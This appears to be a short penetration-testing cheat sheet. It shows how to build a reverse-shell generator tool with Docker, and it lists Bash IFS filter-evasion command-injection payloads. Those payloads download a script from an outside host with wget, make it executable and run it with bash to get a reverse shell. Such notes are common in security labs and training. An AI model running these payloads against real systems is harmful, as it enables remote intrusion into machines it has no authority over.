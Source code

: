 !!! info ""


    ```shell title:"reverse shell generator"9
    https://github.com/0dayCTF/reverse-shell-generator

    wget https://github.com/0dayCTF/reverse-shell-generator/archive/refs/heads/main.zip
    unzip main.zip
    cd reverse-shell-generator-main
    docker build -t reverse_shell_generator .
    docker run -d -p 8090:80 reverse_shell_generator

    http://127.0.0.1:8090
    ```


    ```shell title:"Bash IFS - Reverse Shell - Burp Repeater - PHP"
    - IFS Internal Field Separator
    - The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings.
    - The default value of _IFS_ is a three-character string comprising a space, tab, and newline

    ls${IFS}-la
    ping${IFS}127.0.0.1
    wget${IFS}http://10.10.10.10:8888/rev.sh
    chmod${IFS}777{IFS}rev.sh
    bash${IFS}rev.sh

    ```





